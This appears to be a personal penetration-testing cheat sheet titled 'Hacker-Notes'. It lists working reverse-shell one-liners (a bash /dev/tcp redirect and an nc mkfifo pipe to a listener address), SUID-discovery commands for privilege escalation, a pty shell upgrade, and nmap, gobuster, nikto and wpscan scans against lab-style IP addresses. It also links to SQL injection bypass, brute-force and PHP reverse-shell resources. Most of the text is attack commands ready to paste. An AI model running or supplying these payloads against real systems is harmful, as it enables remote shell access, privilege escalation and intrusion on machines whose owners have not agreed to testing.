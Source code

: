 # Hacker-Notes

PimpMyKali - https://github.com/Dewalt-arch/pimpmykali

Payloads - 

#!/bin/bash
bash -i >& /dev/tcp/172.16.1.1/443 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.1.1 4434 >/tmp/f

Windows reverse shell .php - https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

SUIDS etc

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;

nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oA full 192.168.180.96     

Intense Scan all tcp ports - nmap -p 1-65535 -T4 -A -v IP ADDRESS

Intense Scan UDP - nmap -sS -sU -T4 -A -v IP ADDRESS

SMB ENUM - nmap --script smb-enum-shares -p 139,445 IP ADDRESS

Vuln nmap scan - nmap --script vuln IP ADDRESS - https://www.bencode.net/posts/2018-08-10-cyber-cno-boot2root/

SQL injection cheat sheet - https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

MSSQL cheat sheet - https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

Hydra usage - https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

Fuzzing Paths and files - https://wfuzz.readthedocs.io/en/latest/user/basicusage.html

SMB scans - https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

SMB Map - https://tools.kali.org/information-gathering/smbmap

Null sessions RPC etc - https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

upgrade Python shell - python -c 'import pty; pty.spawn("/bin/bash")'

nikto -host=http://10.10.10.29
dirb http://10.10.10.29
gobuster dir -u https://10.11.1.237/web1/web/ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.11.1.8 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
wpscan --url http://10.10.10.29/wordpress
